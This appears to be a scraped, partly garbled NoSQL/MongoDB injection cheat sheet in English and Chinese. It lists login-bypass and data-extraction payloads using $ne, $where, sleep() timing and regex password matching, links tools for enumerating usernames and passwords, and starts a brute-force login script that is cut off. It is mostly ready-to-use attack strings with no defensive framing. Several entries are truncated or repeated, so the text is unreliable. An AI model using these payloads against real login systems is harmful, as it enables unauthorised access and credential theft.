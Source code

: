 #### Bypass Login and Get All Users' Network Device Routing Tables

```plaintext
' || this.username == {$ne: null} && sleep(5000) || '1' == '1' && this.username != 'admin' && this.network_device_routing_tables != null
```

#### Bypass Login and Get All Users' Network Device SNMP Configuration

```plaintext
' || this.username == {$ne: null} && sleep(5000) || '1' == '1' && this.username != 'admin' && this.network_device_snmp_config != null
```

#### Bypass Login and Get All Users' Network Device SSH Configuration

```plaintext
' || this.username == {$ne: null} && sleep(5000) || '1' == '1' && this.username != 'admin' && this.network_device_ssh_config != null
```

#### Bypass Login and Get All Users' Network Device Telnet Configuration

```plaintext
' || this.username == {$ne: null} && sleep(5000) || '1' == '1' && this.username != 'admin' && this.network_device
```
true, $where: '1 == 1'
, $where: '1 == 1'
$where: '1 == 1'
', $where: '1 == 1'
1, $where: '1 == 1'
{ $ne: 1 }
', $or: [ {}, { 'a':'a
' } ], $comment:'successful MongoDB injection'
db.injection.insert({success:1});
db.injection.insert({success:1});return 1;db.stores.mapReduce(function() { { emit(1,1
|| 1==1
' && this.password.match(/.*/)//+%00
' && this.passwordzz.match(/.*/)//+%00
'%20%26%26%20this.password.match(/.*/)//+%00
'%20%26%26%20this.passwordzz.match(/.*/)//+%00
{$gt: ''}
[$ne]=1
```
## 工具

* [https://github.com/an0nlk/Nosql-MongoDB-injection-username-password-enumeration](https://github.com/an0nlk/Nosql-MongoDB-injection-username-password-enumeration)
* [https://github.com/C4l1b4n/NoSQL-Attack-Suite](https://github.com/C4l1b4n/NoSQL-Attack-Suite)

### 从POST登录中暴力破解用户名和密码

这是一个简单的脚本，你可以修改它，但之前的工具也可以完成这个任务。
```python
import requests
import string

url = "http://example.com"
headers = {"Host": "exmaple.com"}
cookies = {"PHPSESSID": "s3gcsgtqre05bah2vt6tibq8lsdfk"}
```